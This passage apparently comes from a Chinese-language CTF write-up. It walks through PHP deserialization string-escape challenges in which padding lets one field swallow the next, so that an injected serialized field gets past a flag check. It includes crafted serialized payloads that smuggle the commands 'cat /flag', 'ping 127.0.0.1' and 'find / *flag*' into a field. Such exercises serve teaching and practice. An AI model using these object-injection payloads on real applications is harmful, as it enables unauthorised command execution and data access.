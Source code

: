 ```

正常序列化字符串：

`O:6:"escape":3:{s:4:"name";s:3:"123";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:3:"789";}`

email参数会被进行flag的检测。所以，这里要在第二个参数中加入`";}s:5:"email";s:3:"789";}`这种内容，这个东西先不着急弄，因为操作前不需要看这里，吃得字符数量够到后面参数的参数值的第二个双引号前即可，因为自己的值被吃了，自己的完整的序列化字符串和后面的序列化字符串的内容补到自个儿身上就行了。

接下来才是操作的第一步，也是主要的一步。

大致估计第二个参数会被前一个参数吃掉自身的长度，来构建前面参数字符串要变少的数量。

（可以算第二个参数前的双引号开始到自身第二个参数值的结尾的双引号前）

`";s:5:"phone";a:1:{i:0;s:3:"456`

大概31，大概估计即可（这一步其实应该是一步就可以到位的那种，笔者这里反正老师没匹配对），然后开始根据字符串变少的差值想办法让吃得的字符串够到第二个参数传参的参数值的第二个双引号前（可以动态的结合被吃的序列化参数的传参的多少和吃字符串数量的payload即可）

如图，算了下没有够到，还差两位

![](images/mdmd2021-09-12-21-19-21.png)

多吃俩

![](images/mdmd2021-09-12-21-23-55.png)

算了一下，发现多写了个`OTL_QAQ`。但是只要勾到引号前面即可，这里可以算是少1个字符，就在传参的时候phone多传1个字符

如下图，刚刚好。

![](images/mdmd2021-09-12-21-26-20.png)

图中高亮的部分不要当成序列化字符串的内容了。这就是第一个传参的参数值。除此以外没有别的。

### [指挥官杯]简单反序列化

# 20210913

### [九道关]反序列化

![](images/mdmd2021-09-13-15-08-54.png)

```
O:4:"Demo":2:{s:4:"name";s:3:"123";s:4:"pass";s:9:"cat /flag";}

";s:4:"pass";s:14:"ping 127.0.0.1";}
36
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz";s:4:"pass";s:14:"ping 127.0.0.1";}
";s:4:"pass";s:13:"find / *flag*";}
35
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz";s:4:"pass";s:13:"find / *flag*";}
